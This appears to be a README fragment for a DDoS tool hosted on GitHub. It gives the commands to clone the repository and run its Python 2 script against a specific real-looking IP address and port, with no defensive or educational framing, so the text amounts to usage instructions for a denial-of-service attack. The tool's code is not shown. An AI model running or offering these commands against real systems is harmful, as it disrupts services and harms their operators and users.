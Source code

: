 git clone https://github.com/FSMCYBERTEAM/FSMCYBERTEAMDDOS
cd FSMCYBERTEAMDDOS
python2 FSMCYBERTEAM-ddos.py 104.27.190.77 8080 100
